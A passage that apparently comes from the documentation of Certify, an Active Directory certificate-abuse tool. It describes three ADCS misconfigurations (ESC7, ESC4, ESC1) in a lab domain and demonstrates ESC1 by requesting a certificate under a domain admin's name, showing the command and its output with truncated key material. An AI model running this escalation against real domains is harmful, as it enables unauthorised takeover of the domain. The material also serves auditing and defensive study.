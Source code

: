 

 Certify completed in 0000.6548319

Given the above results, we have the three following issues:

1. `THESHIRE\Domain Users` have **ManageCA** permissions over the `dc.theshire.local\theshire-DC-CA` CA (ESC7)
 * This means that the EDITF_ATTRIBUTESUBJECTALTNAME2 flag can be flipped on the CA by anyone.
2. `THESHIRE\Domain Users` have full control over the **User2** template (ESC4)
 * This means that anyone can flip the **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT** flag on this template and remove the **PEND_ALL_REQUESTS** issuance requirement.
3. `THESHIRE\Domain Users` can enroll in the **VulnTemplate** template, which can be used for client authentication and has ENROLLEE_SUPPLIES_SUBJECT set (ESC1)
 * This allows anyone to enroll in this template and specify an arbitrary Subject Alternative Name (i.e. as a DA).

We'll show the abuse of scenario 3.

Next, let's request a new certificate for this template/CA, specifying a DA `localadmin` as the alternate principal:

 C:\Temp>Certify.exe request /ca:dc.theshire.local\theshire-DC-CA /template:VulnTemplate /altname:localadmin

 _____ _ _ __
 / ____| | | (_)/ _|
 | | ___ _ __| |_ _| |_ _ _
 | | / _ \ '__| __| | _| | | |
 | |___| __/ | | |_| | | | |_| |
 \_____\___|_| \__|_|_| \__, |
 __/ |
 |___./
 v1.0.0

 [*] Action: Request a Certificates

 [*] Current user context : THESHIRE\harmj0y
 [*] No subject name specified, using current context as subject.

 [*] Template : VulnTemplate
 [*] Subject : CN=harmj0y, OU=TestOU, DC=theshire, DC=local
 [*] AltName : localadmin

 [*] Certificate Authority : dc.theshire.local\theshire-DC-CA

 [*] CA Response : The certificate had been issued.
 [*] Request ID : 337

 [*] cert.pem :

 -----BEGIN RSA PRIVATE KEY-----
 MIIEpAIBAAKCAQEAn8bKuwCYj8...
 -----END RSA PRIVATE KEY-----
 -----BEGIN CERTIFICATE-----
 MIIGITCCBQmgAwIBAgITVQAAAV...
 -----END CERTIFICATE-----
